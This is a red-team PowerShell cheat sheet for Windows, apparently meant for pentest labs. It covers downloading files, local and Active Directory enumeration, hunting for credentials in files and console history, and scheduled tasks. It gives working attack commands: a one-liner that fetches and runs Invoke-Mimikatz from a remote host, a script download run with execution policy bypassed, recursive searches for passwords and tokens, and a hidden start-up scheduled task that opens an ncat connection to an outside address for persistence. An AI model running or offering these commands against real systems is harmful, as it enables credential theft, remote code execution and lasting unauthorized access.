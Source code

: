 ```yaml
---
title: Windows PowerShell Reference
tags: [windows, powershell, enumeration, persistence, red-team]
tools: [powershell, Invoke-WebRequest, Get-ChildItem, Get-LocalUser, Get-Service, Select-String, Get-ADUser, schtasks]
---
```


# Windows PowerShell Reference

## Web / Download

```powershell
# HTTP GET (headers + body)
Invoke-WebRequest -Uri "https://example.com" -Method GET

# Download a file (wget alternative)
Invoke-WebRequest -Uri "https://example.com/tools.zip" -OutFile "C:\Temp\tools.zip"

# Download using .NET WebClient
(New-Object Net.WebClient).DownloadFile("https://example.com/tools.zip", "C:\Temp\tools.zip")

# Save and execute a remote script (be careful!)
Invoke-WebRequest -Uri "https://example.com/script.ps1" -OutFile "$env:TEMP\script.ps1"; powershell -ExecutionPolicy Bypass -File "$env:TEMP\script.ps1"

# Execute a remote script Alt
IEX(New-Object System.Net.WebClient).DownloadString('http://172.16.1.30/Invoke-Mimikatz.ps1')
```

## Enumeration

```powershell
# Local users and groups
Get-LocalUser
Get-LocalGroup
Get-LocalGroupMember -Group "Administrators"

# Inspect a single user
Get-LocalUser -Name "Administrator" | Get-Member

# Active Directory (requires RSAT / domain access)
Get-ADUser -Filter *

# Services
Get-Service | Select-Object DisplayName, Name, Status | Sort-Object DisplayName
Get-Service | Where-Object {$_.DisplayName -like '*Defender*'}
Get-Service -ComputerName ACADEMY-ICL-DC

# Processes
Get-Process | Sort-Object CPU -Descending | Select-Object -First 20
```

## Loot folders & history

```powershell
# Show hidden files in current folder
Get-ChildItem -Hidden

# PSReadLine console history path
Get-Content (Get-PSReadlineOption).HistorySavePath

# Common paths to check for secrets
$paths = @(
  "$env:USERPROFILE\AppData\Roaming",
  "$env:USERPROFILE\AppData\Local\Microsoft\Windows\PowerShell",
  "$env:USERPROFILE\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine"
)
$paths
```

## Searching for loot (grep-like)

```powershell
# Count files under a path
(Get-ChildItem -Path C:\ -File -Recurse -ErrorAction SilentlyContinue | Measure-Object).Count

# Find files by name pattern (recursive)
Get-ChildItem -Path N:\ -Include '*cred*' -File -Recurse -ErrorAction SilentlyContinue

# Search file contents for keywords (fast)
Get-ChildItem -Path N:\ -File -Recurse -ErrorAction SilentlyContinue | Select-String -Pattern 'password','credential','key' -List

# Combined: limit types and search for secrets
Get-ChildItem -Path C:\Users\ -File -Recurse -ErrorAction SilentlyContinue | Where-Object { $_.Extension -in '.txt','.ps1','.py','.md','.csv' } | Select-String -Pattern 'password','credential','key','token' -List

# Example output interpretation
# N:\Contracts\private\secret.txt:1:file with all credentials
# N:\Contracts\private\credentials.txt:1:admin:SecureCredentials!
```

## Scheduled Tasks (creation / modification)

```powershell
# Create a scheduled task via schtasks (Powershell wrapper)
schtasks /create /sc ONSTART /tn "My Secret Task" /tr "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle Hidden -Command \"Start-Process cmd.exe -ArgumentList '/c C:\\Temp\\ncat.exe 172.16.1.100 8100' -NoNewWindow\""

# Modify task account / password
schtasks /change /tn "My Secret Task" /ru Administrator /rp "P@ssw0rd"

# Delete a task
schtasks /delete /tn "My Secret Task" /f

# List tasks (verbose)
schtasks /query /v /fo list
```

## Quick Notes

- Use `Select-String` (alias `sls`) instead of `findstr` for richer PowerShell output objects.
- `Get-ChildItem` + `Select-String` returns objects you can further filter, export, or parse.
- AD enumeration requires appropriate privileges and RSAT modules.
- Downloading and executing remote scripts is common in labs but treat as high risk on real systems.
- Use `-ErrorAction SilentlyContinue` on recursive searches to avoid noisy permission errors.
